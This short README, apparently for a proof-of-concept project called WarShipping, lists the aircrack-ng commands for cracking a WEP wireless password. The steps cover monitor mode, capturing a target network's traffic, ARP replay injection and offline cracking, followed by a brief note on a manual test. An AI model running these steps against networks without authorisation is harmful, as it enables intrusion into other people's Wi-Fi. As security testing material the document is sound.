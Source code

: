 # WarShipping
WarShipping remixed as a proof of concept.

WEP cracking using airmon-ng
- iwconfig
- airmon-ng start <wireless card>
- airodump-ng <mon card>
- airodump-ng <mon card> --bssid <bssid> -w <write to file> file
(if theres not enough traffic to crack the password)
on another tab:
- aireplay-ng -3 -b <bssid> -h <host connected to network> <mon card>
(cracking the password)
- aircrack-ng <file>.cap

Test 0 (Manual attack)
- manual testing worked, arp poisoning aided but not required with active network.
- one terminal window required unless arp poisoning required.

